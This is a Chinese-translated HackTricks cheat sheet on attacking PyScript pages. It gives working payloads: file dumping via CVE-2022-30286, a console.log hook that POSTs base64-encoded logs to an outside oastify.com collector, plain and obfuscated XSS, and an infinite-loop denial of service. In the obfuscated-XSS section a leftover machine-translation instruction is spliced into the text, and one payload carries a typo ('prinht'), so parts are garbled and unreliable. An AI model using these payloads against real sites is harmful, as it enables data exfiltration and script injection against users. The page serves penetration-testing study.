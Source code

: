 # Pyscript

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- 你在一个**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得**PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！

- 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)

- 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)

- **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**

- **通过向[hacktricks repo](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享你的黑客技巧**。

</details>

## PyScript 渗透测试指南

PyScript是一个新的框架，用于将Python集成到HTML中，因此可以与HTML一起使用。在这个速查表中，您将找到如何使用PyScript进行渗透测试的方法。

### 从Emscripten虚拟内存文件系统中转储/检索文件：

`CVE ID: CVE-2022-30286`\
\
代码：
```html
<py-script>
with open('/lib/python3.10/site-packages/_pyodide/_base.py', 'r') as fin:
out = fin.read()
print(out)
</py-script>
```
结果：

![](https://user-images.githubusercontent.com/66295316/166847974-978c4e23-05fa-402f-884a-38d91329bac3.png)

### [通过Emscripten虚拟内存文件系统进行OOB数据泄露（控制台监视）](https://github.com/s/jcd3T19P0M8QRnU1KRDk/\~/changes/Wn2j4r8jnHsV8mBiqPk5/blogs/the-art-of-vulnerability-chaining-pyscript)

`CVE ID: CVE-2022-30286`\
\
代码：
```html
<py-script>
x = "CyberGuy"
if x == "CyberGuy":
with open('/lib/python3.10/asyncio/tasks.py') as output:
contents = output.read()
print(contents)
print('<script>console.pylog = console.log; console.logs = []; console.log = function(){     console.logs.push(Array.from(arguments));     console.pylog.apply(console, arguments);fetch("http://9hrr8wowgvdxvlel2gtmqbspigo8cx.oastify.com/", {method: "POST",headers: {"Content-Type": "text/plain;charset=utf-8"},body: JSON.stringify({"content": btoa(console.logs)})});}</script>')
</py-script>
```
结果：

![](https://user-images.githubusercontent.com/66295316/166848198-49f71ccb-73cf-476b-b8f3-139e6371c432.png)

### 跨站脚本攻击（普通）

代码：
```python
<py-script>
print("<img src=x onerror='alert(document.domain)'>")
</py-script>
```
结果：

![](https://user-images.githubusercontent.com/66295316/166848393-e835cf6b-992e-4429-ad66-bc54b98de5cf.png)

### 跨站脚本攻击（Python混淆）

代码：
```python
<py-script>
sur = "\u0027al";fur = "e";rt = "rt"
p = "\x22x$$\x22\x29\u0027\x3E"
s = "\x28";pic = "\x3Cim";pa = "g";so = "sr"
e = "c\u003d";q = "x"
y = "o";m = "ner";z = "ror\u003d"

print(pic+pa+" "+so+e+q+" "+y+m+z+sur+fur+rt+s+p)
</py-script>
```
以下是关于黑客技术的一本书中的内容。以下内容来自文件/hive/hacktricks/generic-methodologies-and-resources/python/pyscript.md。将相关的英文文本翻译成中文，并返回翻译结果，保持完全相同的markdown和html语法。不要翻译代码、黑客技术名称、黑客术语、云/SaaS平台名称（如Workspace、aws、gcp...）、泄漏一词、渗透测试和markdown标签。此外，请不要添加任何额外的内容，只需提供翻译和markdown语法即可。

结果：

![](https://user-images.githubusercontent.com/66295316/166848370-d981c94a-ee05-42a8-afb8-ccc4fc9f97a0.png)

### 跨站脚本（JavaScript混淆）

代码：
```html
<py-script>
prinht("<script>var _0x3675bf=_0x5cf5;function _0x5cf5(_0xced4e9,_0x1ae724){var _0x599cad=_0x599c();return _0x5cf5=function(_0x5cf5d2,_0x6f919d){_0x5cf5d2=_0x5cf5d2-0x94;var _0x14caa7=_0x599cad[_0x5cf5d2];return _0x14caa7;},_0x5cf5(_0xced4e9,_0x1ae724);}(function(_0x5ad362,_0x98a567){var _0x459bc5=_0x5cf5,_0x454121=_0x5ad362();while(!![]){try{var _0x168170=-parseInt(_0x459bc5(0x9e))/0x1*(parseInt(_0x459bc5(0x95))/0x2)+parseInt(_0x459bc5(0x97))/0x3*(-parseInt(_0x459bc5(0x9c))/0x4)+-parseInt(_0x459bc5(0x99))/0x5+-parseInt(_0x459bc5(0x9f))/0x6*(parseInt(_0x459bc5(0x9d))/0x7)+-parseInt(_0x459bc5(0x9b))/0x8*(-parseInt(_0x459bc5(0x9a))/0x9)+-parseInt(_0x459bc5(0x94))/0xa+parseInt(_0x459bc5(0x98))/0xb*(parseInt(_0x459bc5(0x96))/0xc);if(_0x168170===_0x98a567)break;else _0x454121['push'](_0x454121['shift']());}catch(_0x5baa73){_0x454121['push'](_0x454121['shift']());}}}(_0x599c,0x28895),prompt(document[_0x3675bf(0xa0)]));function _0x599c(){var _0x34a15f=['15170376Sgmhnu','589203pPKatg','11BaafMZ','445905MAsUXq','432bhVZQo','14792bfmdlY','4FKyEje','92890jvCozd','36031bizdfX','114QrRNWp','domain','3249220MUVofX','18cpppdr'];_0x599c=function(){return _0x34a15f;};return _0x599c();}</script>")
</py-script>
```
结果：

![](https://user-images.githubusercontent.com/66295316/166848442-2aece7aa-47b5-4ee7-8d1d-0bf981ba57b8.png)

### DoS攻击（无限循环）

代码：
```html
<py-script>
while True:
print("&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;")
</py-script>
```
结果：

![](https://user-images.githubusercontent.com/66295316/166848534-3e76b233-a95d-4cab-bb2c-42dbd764fefa.png)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks 云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 推特 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- 你在一家**网络安全公司**工作吗？你想在 HackTricks 中看到你的**公司广告**吗？或者你想获得**PEASS 的最新版本或下载 HackTricks 的 PDF 版本**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！

- 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品——[**The PEASS Family**](https://opensea.io/collection/the-peass-family)

- 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)

- **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass)，或者在 **Twitter** 上**关注**我 [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**

- **通过向 [hacktricks 仓库](https://github.com/carlospolop/hacktricks) 和 [hacktricks-cloud 仓库](https://github.com/carlospolop/hacktricks-cloud) 提交 PR 来分享你的黑客技巧**。

</details>
